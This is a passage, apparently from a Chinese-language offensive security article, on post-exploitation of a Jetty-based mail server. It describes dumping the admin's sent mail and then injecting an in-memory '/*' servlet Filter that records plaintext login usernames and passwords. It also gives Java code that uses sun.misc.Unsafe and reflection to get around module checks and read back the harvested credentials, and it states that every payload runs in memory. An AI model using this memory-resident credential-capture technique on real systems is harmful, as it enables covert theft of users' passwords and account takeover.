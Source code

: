   
获取admin所有发件箱内容  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwyiaF96ia8NwibeuA7aBKlyxmXeUe9oRy9VQWib8D3kdXLSqSwpf26BRW1A/640?wx_fmt=png "")  
  
**5.明文密码记录及获取**  
  
由于每个用户的登录密码在数据库中为哈希加密算法存储，无法进行解密，只能通过实时记录的方式捕捉用户登录动作进行明文密码的获取。这里选在在Jetty运行内存中注入"/*" 的Filter，登录请求将会走入RecordPassword.dofilter逻辑，登录数据包如下：     
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwxZAXjjMjrLGLPOhsbmkHV707Yzr7Sada3DPibY4mazrrjlCB2iaib3RcA/640?wx_fmt=png "")  
  
dofilter中尝试获取username、password参数，再将其记录到类变量  
  
public static ArrayList userinfo = new ArrayList<>();  
  
中，dofilter逻辑如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwYyMmdC2Y6sglYHyKYk6RADUgEBWzlp0pKDicLGhYvx8wD4H6Fy9PWxA/640?wx_fmt=png "")  
  
注入明文密码Filter效果如下(每次运行只允许注入一次)：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwUt3OvgUDgOe7nYD36ibN6x5AtcCjvaPpUjHk3QiclccHEn3VD0XFyrDQ/640?wx_fmt=png "")  
  
获取记录的明文信息只许内存中读取userinfo 类变量的值即可：  
```
try {
Class unsafeClass = Class.forName("sun.misc.Unsafe");    
Field field = unsafeClass.getDeclaredField("theUnsafe");
field.setAccessible(true);
Unsafe unsafe = (Unsafe) field.get(null);
Module baseModule = Object.class.getModule();
Class currentClass = Main.class;
long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
unsafe.putObject(currentClass, offset, baseModule);
           
Field userinfofiled = Class.forName("RecordPassword").getDeclaredField("userinfo");
userinfofiled.setAccessible(true);
ArrayList userinfo = (ArrayList) userinfofiled.get(Class.forName("RecordPassword").newInstance());
for(Object tmp:userinfo){
password = password + tmp.toString() + "\r\n";
}
} catch (Exception e) {
throw new RuntimeException(e);
}
```  
  
  
获取记录的明文密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwLCSdpT1QwJoISMUZ8qRduuViaLlLw2LHcicEu0FnktKty8LYt89yskYA/640?wx_fmt=png "")  
  
             
  
             
  
所有有效载荷，以上所有功能均在内存中运行  
  